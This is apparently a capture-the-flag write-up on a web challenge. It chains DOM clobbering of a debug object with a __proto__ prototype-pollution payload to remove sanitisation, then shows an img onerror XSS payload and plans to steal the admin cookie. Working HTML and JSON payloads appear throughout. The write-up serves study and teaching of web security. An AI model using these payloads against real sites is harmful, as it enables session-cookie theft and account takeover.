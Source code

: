 If we can send arbitrary json data, we would be able to pollute the Object.prototype, which should enable us to overwrite { sanitize: true } to { sanitize: false }

# 3. Steps taken

**1. Step (Clobbering)**

To clobber the debug.extension, send the following input to the title:
```html
<a id=debug><a id=debug name=extension href='data:text/plain;,{ "report": false }'>
```

By inspecting the DOM, we can see that this was successful:
```html
<h1 id="title">
  <a id="debug"></a><a id="debug" name="extension" href="data:text/plain;,{ &quot;report&quot;: false }"></a>
</h1>
```

**2. Step (Polluting)**
Because we have control of the extension, we can send a \_\_proto\_\_ statement, to pollute the Object.prototype.

We just have to send it json like:
```json
{ "__proto__": { "sanitize": false }}
```

- After testing, we notice the sanitize property cannot be modified this way. This might be because it is private, and can't be modified directly.

*But maybe we could send it data to make the sanitize equal something else than true?*

- The _Debug class has its own prototype_, which includes the #sanitize property and any other methods or properties defined in the class.
- When you create an instance of the Debug class using new Debug(true), that instance _inherits properties and methods from the prototype_ of the Debug class.
- If you manipulate the prototype of the instance or the Debug class using __proto__, you replace the prototype chain. If you set __proto__ to an empty object {}, all the properties and methods that were originally inherited from the class prototype will be removed, _including_ the private property #sanitize.
  
```json
{ "__proto__": {}}
```

**At this point it is possible to send arbitrary tags and get XSS.**

3. XSS!
First I'm testing if the XSS actually works by sending a payload, which makes a malformed image, which errors out and alert the cookie of the user
```html 
<img src=x onerror=alert(document.cookie)>
```

It works. The point of this challenge is to get the admin cookie, so I need to set up a web server. Then I'll send a query with the document.cookie in it.

